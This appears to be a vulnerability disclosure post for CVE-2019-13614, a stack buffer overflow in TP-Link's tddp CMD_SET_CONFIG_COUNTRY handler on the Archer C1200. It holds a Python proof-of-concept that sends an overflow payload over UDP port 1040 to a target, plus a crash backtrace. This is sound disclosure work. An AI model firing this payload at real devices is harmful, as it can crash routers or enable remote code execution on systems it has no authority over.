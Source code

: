 ```yaml
---
layout: post
title: "[CVE-2019-13614] tddp CMD_SET_CONFIG_COUNTRY Stack-based Buffer Overflow"
comments: true
description: "TP-Link Device Debug Protocol CMD_SET_CONFIG_COUNTRY Stack-based Buffer Overflow"
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_SET_CONFIG_COUNTRY in the TP-Link Device Debug protocol in TP-Link Archer C1200 1.0.0 Build 20180502 rel.45702 and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 48 + "BBBBCCCCDDDD"

port_send = 1040

tddp_ver = "01"
tddp_command = "a2"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff725778 in feof () from /lib/libc.so.0
#1  0x0000d56c in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```
